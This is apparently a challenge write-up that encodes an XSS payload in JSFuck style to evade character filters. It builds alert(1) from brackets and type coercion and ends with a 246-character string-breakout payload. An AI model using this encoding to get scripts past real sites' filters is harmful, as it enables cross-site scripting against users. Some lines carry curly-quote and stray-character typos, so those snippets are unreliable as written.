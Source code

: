
We can also try to use our own minimization using the letters in “false”, “true”, “undefined” and “object”:

- false => ![]
- true => !![]
- undefined => [][[]]
- NaN => +[![]]
- 0 => +[]
- 1 => +!+[]
- 2 => !+[]+!+[]
- 10 => [+!+[]]+[+[]]
- Array => []
- Number => +[]
- String => []+[]
- Boolean => ![]
- Function => []["filter"]
- eval => []["filter"]["constructor"]( CODE )()7
- window => []["filter"]["constructor"]("return this")()
来源： <http://www.jsfuck.com/>

Strings we will need:
- sort 
	[(”+!1)[3]+(”+{})[1]+(”+!0)[1]+(”+!0)[0]]
- constructor 		
	[(”+{})[5]+(”+{})[1]+(”+{}[0])[1]+(”+!1)[3]+(”+!0)[0]+(”+!0)[1]+(”+!0)[2]+(”+{})[5]+(”+!0)[0]+(”+{})[1]+(”+!0)[1]]
- alert(1) 
	(”+!1)[1] + (”+!1)[2] + (”+!1)[4] +(”+!0)[1]+(”+!0)[0]+”(1)”

We will replace the call to alert(1) in our payload:

```
	 "+alert(1))//
```

with the following one so we can simplify the encoding to encode strings.

```
	"+[]["sort"]["constructor"]("alert(1)")()//
```

Note: Many other alternatives are possible like:

```
	"+(0)['constructor']['constructor']("alert(1)")()//
```

But I found the “sort” one to be the shortest (with other 4 letter functions like “trim”)

This is a 246 characters solution:

```
	"+[][(''+!1)[3]+(''+{})[1]+(''+!0)[1]+(''+!0)[0]][(''+{})[5]+(''+{})[1]+(''+
	{}[0])[1]+(''+!1)[3]+(''+!0)[0]+(''+!0)[1]+(''+!0)[2]+(''+{})[5]+(''+!0)[0]+
	(''+{})[1]+(''+!0)[1]]((''+!1)[1] + (''+!1)[2] + (''+!1)[4] +(''+!0)[1]+
	(''+!0)[0]+"(1)")())//
```
